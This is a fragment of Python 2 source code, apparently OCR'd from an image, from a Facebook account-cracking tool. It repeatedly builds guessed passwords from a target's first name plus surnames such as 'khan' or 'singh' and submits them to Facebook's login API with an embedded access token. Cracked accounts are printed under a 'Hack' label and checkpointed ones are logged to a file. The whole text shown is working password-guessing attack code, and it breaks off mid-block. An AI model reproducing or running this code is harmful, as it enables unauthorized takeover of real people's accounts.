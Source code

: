 						else:
							pass3 = (j['first_name']+'ansari')
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;91m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = (j['first_name']+'khan')
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;91m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = (j['first_name']+'singh')
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;91m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = (j['first_name']+'thakur')
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;91m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass6